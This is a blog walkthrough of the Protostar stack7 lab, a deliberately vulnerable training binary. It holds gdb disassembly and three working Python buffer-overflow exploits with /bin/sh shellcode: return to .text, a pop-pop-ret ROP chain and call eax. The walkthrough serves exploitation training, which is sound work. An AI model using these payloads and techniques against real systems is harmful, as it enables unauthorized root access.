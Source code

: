 ```yaml
---
title: "Protostar stack7 walkthrough"
date: 2020-05-22
tags: [ROP, return oriented programming, buffer overflow, protostar, stack7, walkthrough]
header:
  image: "/images/protostar/protostar.png"
---
```


## Protostar exercises - [stack7](https://exploit-exercises.lains.space/protostar/stack7/)

#### About
Stack7 introduces return to .text to gain code execution.

The metasploit tool “msfelfscan” can make searching for suitable instructions very easy, otherwise looking through objdump output will suffice.

This level is at /opt/protostar/bin/stack7

#### Source code
```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

char *getpath()
{
  char buffer[64];
  unsigned int ret;

  printf("input path please: "); fflush(stdout);

  gets(buffer);

  ret = __builtin_return_address(0);

  if((ret & 0xb0000000) == 0xb0000000) {
      printf("bzzzt (%p)\n", ret);
      _exit(1);
  }

  printf("got path %s\n", buffer);
  return strdup(buffer);
}

int main(int argc, char **argv)
{
  getpath();



}
```

#### Procedure:

The aim is to get a root shell. Similar to the previous problem, we need to overwrite the return pointer. But this time, the return pointer should not be in 0xbf000000 address space (basically stack). As suggested, we can set the return pointer to /bin/sh in libc. We can also set it to itsef so that it fails the 'if' condition and doesn't exit. Then we can use shell code

###### Vulnerability:

`gets()` is vulnerable function.


###### Disassembly:

```
gdb ./stack7
set disassembly-flavor intel
disassemble getpath
disassemble main
```

```
(gdb) disassemble getpath
Dump of assembler code for function getpath:
0x080484c4 <getpath+0>: push   ebp
0x080484c5 <getpath+1>: mov    ebp,esp
0x080484c7 <getpath+3>: sub    esp,0x68
0x080484ca <getpath+6>: mov    eax,0x8048620
0x080484cf <getpath+11>:        mov    DWORD PTR [esp],eax
0x080484d2 <getpath+14>:        call   0x80483e4 <printf@plt>
0x080484d7 <getpath+19>:        mov    eax,ds:0x8049780
0x080484dc <getpath+24>:        mov    DWORD PTR [esp],eax
0x080484df <getpath+27>:        call   0x80483d4 <fflush@plt>
0x080484e4 <getpath+32>:        lea    eax,[ebp-0x4c]
0x080484e7 <getpath+35>:        mov    DWORD PTR [esp],eax
0x080484ea <getpath+38>:        call   0x80483a4 <gets@plt>
0x080484ef <getpath+43>:        mov    eax,DWORD PTR [ebp+0x4]
0x080484f2 <getpath+46>:        mov    DWORD PTR [ebp-0xc],eax
0x080484f5 <getpath+49>:        mov    eax,DWORD PTR [ebp-0xc]
0x080484f8 <getpath+52>:        and    eax,0xb0000000
0x080484fd <getpath+57>:        cmp    eax,0xb0000000
0x08048502 <getpath+62>:        jne    0x8048524 <getpath+96>
0x08048504 <getpath+64>:        mov    eax,0x8048634
0x08048509 <getpath+69>:        mov    edx,DWORD PTR [ebp-0xc]
0x0804850c <getpath+72>:        mov    DWORD PTR [esp+0x4],edx
0x08048510 <getpath+76>:        mov    DWORD PTR [esp],eax
0x08048513 <getpath+79>:        call   0x80483e4 <printf@plt>
0x08048518 <getpath+84>:        mov    DWORD PTR [esp],0x1
0x0804851f <getpath+91>:        call   0x80483c4 <_exit@plt>
0x08048524 <getpath+96>:        mov    eax,0x8048640
0x08048529 <getpath+101>:       lea    edx,[ebp-0x4c]
0x0804852c <getpath+104>:       mov    DWORD PTR [esp+0x4],edx
0x08048530 <getpath+108>:       mov    DWORD PTR [esp],eax
0x08048533 <getpath+111>:       call   0x80483e4 <printf@plt>
0x08048538 <getpath+116>:       lea    eax,[ebp-0x4c]
0x0804853b <getpath+119>:       mov    DWORD PTR [esp],eax
0x0804853e <getpath+122>:       call   0x80483f4 <strdup@plt>
0x08048543 <getpath+127>:       leave
0x08048544 <getpath+128>:       ret
End of assembler dump.
(gdb) disassemble main
Dump of assembler code for function main:
0x08048545 <main+0>:    push   ebp
0x08048546 <main+1>:    mov    ebp,esp
0x08048548 <main+3>:    and    esp,0xfffffff0
0x0804854b <main+6>:    call   0x80484c4 <getpath>
0x08048550 <main+11>:   mov    esp,ebp
0x08048552 <main+13>:   pop    ebp
0x08048553 <main+14>:   ret
End of assembler dump.
(gdb) break *0x08048544
Breakpoint 1 at 0x8048544: file stack7/stack7.c, line 24.
```

First, lets get the esp value when ret is executed. We can find out that its 0xbffff7bc.
Like we did in stack6, we can use a similar exploit to get the shell

```python
import struct

pad = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB"
eip = struct.pack("I", 0x08048544)
eip += struct.pack("I", 0xbffff7bc+20)
nopsled = "\x90" * 50
interrupt = "\xCC"
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print pad + eip + nopsled + shellcode
```

![root-regular]({{site.url}}{{site.baseurl}}/images/protostar/stack7/root-regular.png)

But we cannot use this method everytime. We might run into some bad characters (like \x00 or \x0a or \x0d) or ASLR might be enabled. So, we cannot use the hardcoded addresses all the time. We can use ret2libc like we did in stack6. We can also search for ROP gadgets and use them.

As suggested, we can use `msfelfscan` to find these.

I looked for any `jmp esp` commands using `/usr/share/framework2/msfelfscan -j esp -f stack7` but couldn't find anything. But there are three `pop pop ret` commands

```
/usr/share/framework2/msfelfscan -s -f stack7
0x08048492   ebx ebp ret
0x080485f7   ebx ebp ret
0x080485c7   edi ebp ret
```

We can also use [ROPgadget](https://github.com/JonathanSalwan/ROPgadget) to find all unique ROPs using `ROPgadget --binary stack7`. It lists many unique [gadgets]({{site.url}}{{site.baseurl}}/misc/protostarStack7ROPgadgets.txt)

Lets use the address 0x08048492. Once we write the ret pointer (0xbffff7bc) to this address, We need to have some values on stack for each pop and a return address for the return  pointer. Lets add the in the sploit script.

```python
import struct

pad = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB"
eip = struct.pack("I", 0x08048492)
pop1 = "PPPP"
pop2 = "QQQQ"
ret = struct.pack("I", 0xbffff7bc+20)
nopsled = "\x90" * 50
interrupt = "\xCC"
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print pad + eip + pop1 + pop2 + ret +nopsled + shellcode
```

This will give us the root shell

![root-rop]({{site.url}}{{site.baseurl}}/images/protostar/stack7/root-rop.png)

Lets use another ROP chain to get shell.

Earlier, we used `ROPgadget` to get some [gadgets]({{site.url}}{{site.baseurl}}/misc/protostarStack7ROPgadgets.txt). Now les try using one of them

![ropgadgets]({{site.url}}{{site.baseurl}}/images/protostar/stack7/ropgadgets.png)

Lets try to use `call eax`
```
0x080484bf : call eax
```

Lets use this address for eip

```
import struct

pad = "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBBBBBBBBBBBBBB"
eip = struct.pack("I", 0x080484bf)
esp = struct.pack("I", 0xbffff7bc+20)
nopsled = "\x90" * 50
interrupt = "\xCC"
shellcode = "\x6a\x0b\x58\x99\x52\x66\x68\x2d\x70\x89\xe1\x52\x6a\x68\x68\x2f\x62\x61\x73\x68\x2f\x62\x69\x6e\x89\xe3\x52\x51\x53\x89\xe1\xcd\x80"

print pad + eip + esp +nopsled + shellcode
```

![root-esp]({{site.url}}{{site.baseurl}}/images/protostar/stack7/root-esp.png)

We can see that we'll get shell again.

